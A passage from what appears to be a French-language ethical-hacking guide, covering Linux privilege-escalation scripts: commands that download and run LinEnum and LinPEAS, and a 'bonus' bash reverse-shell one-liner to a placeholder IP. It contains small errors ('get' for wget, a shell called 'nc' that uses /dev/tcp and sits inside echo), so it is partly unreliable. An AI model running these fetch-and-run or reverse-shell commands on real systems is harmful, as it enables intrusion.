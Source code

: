 ***

### **11. Scripts d'attaque et d'exploitation**

**Recherche d'exploits locaux connus**

Télécharger et exécuter des scripts d'exploitation locaux pour automatiser la collecte d'informations.

* **LinEnum** et **LinPEAS** sont des scripts populaires pour cette tâche.

```bash
get https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O linenum.sh
chmod +x linenum.sh
./linenum.sh
```

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230827/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Ces commandes et outils aident à identifier les vecteurs d'attaque potentiels pour l'escalade de privilèges sur un système Linux en exploitant les configurations faibles, les permissions incorrectes, et d'autres vulnérabilités.

***

BONUS:

commande pour activer un shell root via nc (à faire sur machine cible):

```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
